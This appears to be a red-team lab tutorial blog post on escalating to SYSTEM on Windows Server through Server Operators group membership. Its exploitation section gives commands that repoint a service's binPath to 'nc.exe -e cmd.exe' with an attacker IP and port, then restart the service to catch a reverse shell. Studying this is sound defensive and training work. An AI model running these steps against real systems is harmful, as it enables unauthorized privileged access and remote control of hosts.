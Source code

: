 ```yaml
---
title: "Windows Privilege Escalation Server Operator Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Windows Privilege Escalation
  - Active Directory
  - RedTeam
---
```


The Windows Server operating system uses two types of security principals for authentication and authorization: user accounts and computer accounts. These accounts are created to represent physical entities, such as people or computers, and can be used to assign permissions to access resources or perform specific tasks. Additionally, security groups are created to include user accounts, computer accounts, and other groups, in order to make it easier to manage permissions. The system comes pre-configured with certain built-in accounts and security groups, which are equipped with the necessary rights and permissions to carry out functions.

### Introduction to windows privileged groups

In Active Directory, privileged groups are also known as security groups. Security groups are collections of user accounts that have similar security requirements. By placing user accounts into appropriate security groups, administrators can grant or deny access to network resources in bulk. Security groups can be used to grant or deny access to network resources, such as shared folders, printers, and applications. They can also be used to assign permissions to user accounts, such as the ability to create, delete, or modify files.



### What is Server operator group

(Members can modify services, access SMB shares, and backup files)
The Server Operator group is a special user group that often has access to powerful commands and settings on a computer system. This group is typically used for managing a server or for troubleshooting system problems. Server Operators are usually responsible for monitoring the server’s performance, managing system security, and providing technical support to users. They may also oversee installing software updates, creating and maintaining user accounts, and performing routine maintenance tasks.

### Lab Configuration

![[Pasted image 20240212154604.png]]

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**”

We are going to add a user aarti to the active directory security group for the demonstration. To do that, go to **“users**” select “**carole.rose**” and click on “**properties**”.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-1.png)](https://r00tven0m.github.io/)

That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-2.png)](https://r00tven0m.github.io/)


assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-2.png

A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **server operators’** group then click ok.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-3.png)](https://r00tven0m.github.io/)


We can verify whether a user is added to the server operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user carole.rose to server operators’ group.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-4.png)](https://r00tven0m.github.io/)


We end up with our lab set up here and logged in as low privileged user in the server where we can see user carole.rose is in the server operators’ group. In this example, we have connected to the compromised host using the winrm service using the evil-winrm tool. To check group permission, we can simply use the inbuilt command "net user username", it will show what groups the current user belongs to. To reproduce the concept, please follow the commands below

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-5.png)](https://r00tven0m.github.io/)


Being a member of server operator group is not a vulnerability, but the member of this group has special privileges to make changes in the domain which could lead an attacker to escalate to system privilege. We listed services running on the server by issuing “**services**” command in our terminal where we can see list of services are there. Then we noted the service name “**WazuhSvc**” and service binary path for lateral usage.

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-6.png)](https://r00tven0m.github.io/)


### Exploitation

Then we transferred **netcat.exe** binary to the compromised host and changed the binary path of the service. The reason we are changing the binary path is to receive a reverse connection as system user from the compromised hosts.

**How it works?**

When we start any service then it will execute the binary from its binary path so if we replace the service binary with netcat or reverse shell binary then it will give us a reverse shell as a system user because the service is starting as a system on the compromised host. Please note, we need to specify the attacker’s IP address and listening port number with the netcat binary.

Steps to reproduce the POC:

```bash
upload nc.exe
sc.exe config WazuhSvc binPath="C:\Users\carole.rose.CBANK\Documents\nc.exe -e cmd.exe 192.168.56.1 9001"
```

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-7.png)](https://r00tven0m.github.io/)

Then we will stop the service and start it again. So, this time when service starts, it will execute the binary that we have set in set earlier. Please, set up a netcat listener on the kali system to receive system shell before starting service and service start and stop commands from compromised hosts.

```bash
nc -nvlp 9001
sc.exe stop WazuhSvc
sc.exe start WazuhSvc
```

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-8.png)](https://r00tven0m.github.io/)


We have received a reverse shell from the compromised host as **nt authority\system**. To verify it simply run “**whoami**” command.


[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-9.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Windows Privilege Escalation/Server Operator/2024-02-12-10.png)](https://r00tven0m.github.io/)
